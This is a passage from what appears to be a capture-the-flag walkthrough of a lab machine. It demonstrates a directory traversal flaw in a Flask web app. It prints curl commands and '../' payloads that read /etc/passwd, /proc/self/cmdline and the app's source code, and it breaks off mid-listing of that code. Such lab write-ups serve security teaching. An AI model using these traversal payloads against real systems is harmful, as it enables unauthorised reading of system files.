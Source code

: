 ```
10.10.47.54 airplane.thm
```
{: file="/etc/hosts"}

### Port 8000

When visiting `http://airplane.thm:8000/`, we get redirected to `http://airplane.thm:8000/?page=index.html`. It displays a static page about airplanes.

![Web 8000 Index](web_8000_index.webp){: width="1200" height="600" }

## Shell as hudson

### Discovering The File Disclosure Vulnerability

One interesting thing about how the page is displayed is the `page` parameter.

Testing it for directory traversal with the `/?page=../../../../etc/passwd` payload, we are able to read files on the system.

![Web 8000 File Disclosure Passwd](web_8000_file_disclosure_passwd.webp){: width="1000" height="500" }

There are three users with shell access.

```
root:x:0:0:root:/root:/bin/bash
carlos:x:1000:1000:carlos,,,:/home/carlos:/bin/bash
hudson:x:1001:1001::/home/hudson:/bin/bash
```

Checking the `/proc/self/status` file, we can see that the current process (webserver) is running as the `hudson` user.

![Web 8000 File Disclosure Status](web_8000_file_disclosure_status.webp){: width="1000" height="400" }

Using `/proc/self/cmdline`, we can retrieve the command for the current process.

```console
$ curl -s 'http://airplane.thm:8000/?page=../../../../proc/self/cmdline' | sed 's/\x00/ /g'
/usr/bin/python3 app.py                                                                                                        
```

> The `cmdline` file holds the command line arguments separated by a null byte. We can use the `sed` command to replace them with a space instead.
{: .prompt-tip }

Now, we can use the `/?page=../../../../proc/self/cwd/app.py` payload to read the source code for the web application.

```console
$ curl -s 'http://airplane.thm:8000/?page=../../../../proc/self/cwd/app.py'
```
```python
from flask import Flask, send_file, redirect, render_template, request
import os.path

app = Flask(__name__)


@app.route('/')
def index():
    if 'page' in request.args:
        page = 'static/' + request.args.get('page')

        if os.path.isfile(page):
            resp = send_file(page)
            resp.direct_passthrough = False
```